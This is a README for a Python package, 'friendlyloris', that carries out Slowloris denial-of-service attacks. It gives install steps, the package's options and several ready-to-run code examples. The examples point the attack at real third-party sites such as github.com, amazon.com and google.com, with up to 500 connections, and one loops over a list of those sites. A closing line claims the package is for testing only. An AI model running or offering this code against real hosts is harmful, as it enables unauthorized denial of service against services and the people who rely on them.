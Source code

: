 # ✨ friendlyloris, a simple slow loris package for Python ✨

### Here is a minimal start:

1.  Install with `pip install friendlyloris`
2.  Run the following code:

        from friendlyloris import FriendlyLoris

        loris = FriendlyLoris(host="github.com")

        loris.run()

### The following options are available:

- **Host** *The URL or IP address we want to connect to* *required
- **Port** *The port number we will use to connect*
- **Https** *If we will start an encrypted connection*
- **Connections** *The number of simultanious connections we will make*
- **Interval** *The number of seconds we wait before refreshing connections*
- **Loops** *How many times we will refresh connections*
- **Verbose** *If we want to see verbose logging*

### Here is an example with the default values:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        port = 443,
        https = True, 
        connections = 200, 
        interval = 10, 
        loops = 5, 
        verbose = False
        )

    loris.run()

### A few more examples below:

Connecting with plaintext HTTP:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        port = 80,
        https = False
        )

    loris.run()

More connections and verbose logging:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        connections = 500,
        verbose = True
        )

    loris.run()

More connections, shorter timeout and 1 loop:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        connections = 500,
        interval = 5,
        loops = 1
        )

    loris.run()

Finally, quick tests running against a list of sites:

    from friendlyloris import FriendlyLoris

    hosts = [
        "github.com",
        "stackoverflow.com",
        "amazon.com",
        "google.com",
    ]

    for site in hosts:

        loris = FriendlyLoris(
            host = site,
            connections = 100,
            interval = 5,
            loops = 2,
            verbose = True
            )

        loris.run()

A [good article](https://www.cloudflare.com/learning/ddos/ddos-attack-tools/slowloris/) on how this works 🎉

This was designed for testing, not malice 😊 Please use as such 😇

Enjoy 🤙
